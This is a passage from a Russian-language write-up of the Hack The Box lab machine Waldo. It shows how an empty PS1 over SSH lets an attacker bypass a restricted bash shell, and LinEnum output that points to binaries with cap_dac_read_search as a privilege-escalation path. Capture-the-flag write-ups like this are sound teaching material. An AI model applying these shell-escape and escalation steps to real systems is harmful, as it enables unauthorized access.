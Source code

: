 Если переменная `PS1` пуста, то ничего не делаем и просто выходим из скрипта. `PS1` — это ничто иное, как ***P**rompt **S**tring*.

Вот как она выглядит:
```text
monitor@waldo:~$ echo $PS1
${debian_chroot:+($debian_chroot)}\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$
```

А вот, что мы видим при выполнении этой же команды при SSH-коннекте:
```text
root@kali:~# ssh -oStrictHostKeyChecking=no -t -i nobody.key -p 8022 monitor@localhost 'echo $PS1'

Shared connection to localhost closed.
```

Переменная пуста, что дает нам возможность обойти выполнение `/etc/bash.bashrc`, в котором, в свою очередь, устанавливается "плохое" значение переменной `PATH` (`/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1`).

Поэтому, так как `PATH` дефолтен при выполнении команд через SSH:
```text
root@kali:~# ssh -oStrictHostKeyChecking=no -t -i nobody.key -p 8022 monitor@localhost 'echo $PATH'
/usr/local/bin:/usr/bin:/bin:/usr/games
Shared connection to localhost closed.
```

То мы имеем возможность выполнить bash *изнутри* rbash, а далее загрузится `/etc/bash.bashrc`, и мы, уже будучи не в rbash'е, спокойно поменяем значение PATH через `export PATH=...`.

## LinEnum.sh
После того, как я уже прошел Waldo [LinEnum.sh](https://github.com/rebootuser/LinEnum "rebootuser/LinEnum: Scripted Local Linux Enumeration & Privilege Escalation Checks") обновился и теперь может искать интересные файлы с выставленными capabilities:
```text
monitor@waldo:/tmp$ bash LinEnum.sh -t
...
[+] Files with POSIX capabilities set:
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei


[+] Users with specific POSIX capabilities:
cap_dac_read_search monitor


[+] Capabilities associated with the current user:
cap_dac_read_search


[+] Files with the same capabilities associated with the current user (You may want to try abusing those capabilties):
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei


[+] Permissions of files with the same capabilities associated with the current user:
-rwxr-xr-x 1 root root 39752 Feb 22  2017 /usr/bin/tac
-r-xr-x--- 1 app-dev monitor 13706 May  3  2018 /home/monitor/app-dev/v0.1/logMonitor-0.1
...
```
